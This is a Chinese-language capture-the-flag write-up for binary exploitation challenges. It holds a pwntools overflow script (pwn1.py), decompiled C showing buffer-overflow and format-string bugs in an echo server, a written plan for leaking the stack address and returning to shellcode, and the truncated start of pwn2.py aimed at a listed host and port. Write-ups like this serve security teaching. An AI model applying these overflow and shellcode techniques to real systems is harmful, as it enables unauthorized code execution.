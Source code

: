 ```python pwn1.py
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

r = remote(HOST, PORT)

if __name__ == "__main__":

    payload = "A"*28 + "\x90\x90\x90\x90" 
    print r.recvuntil("name: \n")
    r.sendline(payload)
    print r.recv(1024)
    r.close()
```

## PWN3D2
32 bit ELF, 單純的 echo server，輸入啥 input 就印啥出來(嗎?)
```c
int echo()
{
  int v1; // [sp+18h] [bp-14h]@1
  int v2; // [sp+1Ch] [bp-10h]@1

  v1 = 0;
  v2 = 0;
  read(0, &v1, 0x100u);
  return __printf_chk(1, &v1);
}
```
可以看到 `read()` 那邊有個 overflow 的漏洞
然後 `__printf_chk()` 那邊也有個 format string 的漏洞

使用 [checksec.sh](http://www.trapkit.de/tools/checksec.html) 檢查之後發現沒開 DEP
那麼方向就很明顯了: return to shellcode
先利用 format string leak 出 ebp, 得到目前 stack 的位置，並計算 input buffer 的 address
透過第一次 overflow 覆寫 return address，讓程式執行完 `echo()` 之後重新回到 `echo()` 的開頭
此時我們拿到了 input buffer 的 address
就可以在 buffer 上面塞 shellcode
並透過第二次的 overflow 讓 return address 跳到我們的 shellcode 上面執行拿到 shell  

要注意的是 buffer 只給我們 20 byte, 而我的 shellcode 有 23 byte
因此最後我是將 shellcode 塞在 return address 後面，並向後跳至 shellcode 位址執行
```python pwn2.py
#!/usr/bin/env python

from pwn import *
import sys
import time

HOST = "52.69.163.194"
PORT = 2222
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

r = remote(HOST, PORT)
#r = process("./pwn2")
```